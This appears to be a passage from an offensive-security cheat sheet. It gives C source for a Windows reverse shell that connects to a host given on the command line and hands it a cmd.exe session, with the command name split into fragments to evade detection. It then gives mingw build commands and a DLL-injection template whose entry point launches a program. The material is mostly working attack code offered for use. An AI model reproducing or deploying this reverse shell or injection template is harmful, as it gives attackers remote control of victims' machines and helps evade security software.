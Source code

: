 ```
    	if (argv[1] == NULL){
		exit(1);
	}

    	struct hostent *host;
	host = gethostbyname(argv[1]);
	strcpy(aip_addr, inet_ntoa(*((struct in_addr *)host->h_addr)));
    
	hax.sin_family = AF_INET;
	hax.sin_port = htons(atoi(argv[2]));
	hax.sin_addr.s_addr =inet_addr(aip_addr);
    
	WSAConnect(Winsock,(SOCKADDR*)&hax, sizeof(hax),NULL,NULL,NULL,NULL);
	if (WSAGetLastError() == 0) {

		memset(&ini_processo, 0, sizeof(ini_processo));

		ini_processo.cb=sizeof(ini_processo);
		ini_processo.dwFlags=STARTF_USESTDHANDLES;
		ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

		char *myArray[4] = { "cm", "d.e", "x", "e" };
		char command[8] = "";
		snprintf( command, sizeof(command), "%s%s%s%s", myArray[0], myArray[1], myArray[2], myArray[3]);

		CreateProcess(NULL, command, NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);
		exit(0);
	} else {
		exit(0);
	}    
}
```

### DLL injection

```
apt install mingw32-gcc-c++.x86_64
apt install mingw32-winpthreads*

i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
i686-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a
```

```
#include <windows.h>
int fireLazor()
{
 WinExec("calc", 0);
 return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 fireLazor();
 return 0;
}
```
